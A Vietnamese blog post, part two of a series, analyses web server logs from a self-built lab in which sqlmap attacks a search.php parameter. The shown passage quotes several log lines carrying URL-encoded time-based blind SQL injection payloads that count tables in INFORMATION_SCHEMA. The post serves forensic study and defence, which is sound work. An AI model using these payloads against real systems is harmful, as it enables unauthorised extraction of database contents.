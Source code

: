 ### Giới thiệu

Phần trước mình trước mình cũng đã nói qua về [phân tích log SQL Injection](https://viblo.asia/p/phan-tich-log-sql-injection-part1-oOVlYMnBl8W) các bạn có thể tham khảo thêm hoặc đọc qua để dễ theo dõi hơn cho phần 2 này nhé. Ở bài viết trước mình đã phân tích đến đoạn attacker lấy được những tên databases có trên server, phần tiếp theo này mình sẽ phân tích tiếp những hành động mà attacker đã thực hiện. Một số thứ phần trước mình chưa đề cập tới nên có thể các bạn sẽ khó theo dõi vì vậy trong bài viết này mình sẽ bổ sung thêm một số chi tiết giúp các bạn dễ theo dõi hơn.

###  Phân tích

Như ở trên đã nói một số thứ mình đã không đề cập ở phần trước dẫn đến việc khó theo dõi nên trong phần này mình sẽ bổ sung thêm để các bạn tiện theo dõi hơn.

#### Tổng quan về file log

![](https://images.viblo.asia/3763c358-6d69-4bfd-822c-1609d379dac2.png)

Việc dễ dàng chia ra từng phần để phân tích bởi vì đây chỉ là một lab mình dựng lên để học cách phân tích nên chỉ có duy nhất request của attacker, trong thực tế thì một ứng dụng web nhiều người dùng trong một giây có thể có rất nhiều requests tới nên việc phân tích cũng khó khăn hơn. 

Nhưng về cơ bản thì chúng ta cũng vẫn có thể chia ra từng phần như vậy được bởi trước mỗi phần thực hiện lấy dữ liệu thì sqlmap đều gửi một vài request để kiểm tra có bị block hay không. 

Giống như hình bên trên chúng ta có thể thấy sqlmap đã gửi ~25 requests thường để kiểm tra việc block request trước khi thực hiện dump data.


#### Lấy tên các bảng
Ở phần một vừa rồi mình đã làm đến công đoạn lấy ra tên các databases, để tiếp nối phần trước thì phần này sẽ là lấy ra tên các bảng trong một database nào đấy mà attacker đã lựa chọn. Phần này tương tự như phần lấy ra tên các databases trên server, đầu tiên lấy ra số bảng của database mà attacker đã chọn

```log
42.112.114.236 - - [10/Aug/2020:08:30:26 +0000] "GET /webapp/search.php?id=123%20AND%20%28SELECT%206037%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28table_name%29%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x776562617070%29%2C1%2C1%29%29%3E51%2C0%2C5%29%29%29%29%29BEVL%29 HTTP/1.1" 200 413 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:26 +0000] "GET /webapp/search.php?id=123%20AND%20%28SELECT%206037%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28table_name%29%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x776562617070%29%2C1%2C1%29%29%3E48%2C0%2C5%29%29%29%29%29BEVL%29 HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34 +0000] "GET /webapp/search.php?id=123%20AND%20%28SELECT%206037%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28table_name%29%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x776562617070%29%2C1%2C1%29%29%3E49%2C0%2C5%29%29%29%29%29BEVL%29 HTTP/1.1" 200 415 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34 +0000] "GET /webapp/search.php?id=123%20AND%20%28SELECT%206037%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28table_name%29%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x776562617070%29%2C1%2C1%29%29%21%3D49%2C0%2C5%29%29%29%29%29BEVL%29 HTTP/1.1" 200 417 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34 +0000] "GET /webapp/search.php?id=123%20AND%20%28SELECT%206037%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28table_name%29%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x776562617070%29%2C2%2C1%29%29%3E51%2C0%2C5%29%29%29%29%29BEVL%29 HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34 +0000] "GET /webapp/search.php?id=123%20AND%20%28SELECT%206037%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28table_name%29%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x776562617070%29%2C2%2C1%29%29%3E48%2C0%2C5%29%29%29%29%29BEVL%29 HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
```